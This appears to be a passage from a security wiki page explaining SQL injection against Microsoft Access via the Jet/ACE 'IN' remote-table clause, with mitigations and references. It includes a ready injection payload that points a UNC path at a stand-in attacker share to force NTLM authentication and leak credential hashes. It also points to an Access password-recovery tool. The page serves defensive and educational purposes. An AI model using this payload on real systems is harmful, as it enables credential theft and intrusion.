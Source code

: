 Since Jet 4.0 every query can reference a table located in a *different* `.mdb/.accdb` file via the `IN '<path>'` clause:

```sql
SELECT first_name FROM Employees IN '\\server\share\hr.accdb';
```

If user input is concatenated into the part after **IN** (or into a `JOIN … IN` / `OPENROWSET` / `OPENDATASOURCE` call) an attacker can specify a **UNC path** that points to a host they control. The engine will:

1. try to authenticate over SMB / HTTP to open the remote database; 
2. leak the web-server’s **NTLM credentials** (forced authentication); 
3. parse the remote file – a malformed or malicious database can trigger Jet/ACE memory-corruption bugs that have been patched multiple times (e.g. CVE-2021-28455).

Practical injection example:

```sql
1' UNION SELECT TOP 1 name
   FROM MSysObjects
   IN '\\attacker\share\poc.mdb'-- -
```

Impact:

* Out-of-band exfiltration of Net-NTLMv2 hashes (usable for relay or offline cracking).
* Potential remote code execution if a new Jet/ACE parser bug is exploited.

Mitigations (recommended even for legacy Classic ASP apps):

* Add the registry value `AllowQueryRemoteTables = 0` under `HKLM\Software\Microsoft\Jet\4.0\Engines` (and under the equivalent ACE path). This forces Jet/ACE to reject remote paths starting with `\\`.
* Block outbound SMB/WebDAV at the network boundary.
* Sanitize / parameterise any part of a query that may end up inside an `IN` clause.

The forced-authentication vector was revisited by Check Point Research in 2023, proving it is still exploitable on fully patched Windows Server when the registry key is absent. 

### .mdb Password Cracker

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) is a free utility that can be used to recover the main database password of Microsoft Access 95/97/2000/XP or Jet Database Engine 3.0/4.0.

## References

- [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
- [Microsoft KB5002984 – Configuring Jet/ACE to block remote tables](https://support.microsoft.com/en-gb/topic/kb5002984-configuring-jet-red-database-engine-and-access-connectivity-engine-to-block-access-to-remote-databases-56406821-30f3-475c-a492-208b9bd30544)
- [Check Point Research – Abusing Microsoft Access Linked Tables for NTLM Forced Authentication (2023)](https://research.checkpoint.com/2023/abusing-microsoft-access-linked-table-feature-to-perform-ntlm-forced-authentication-attacks/)

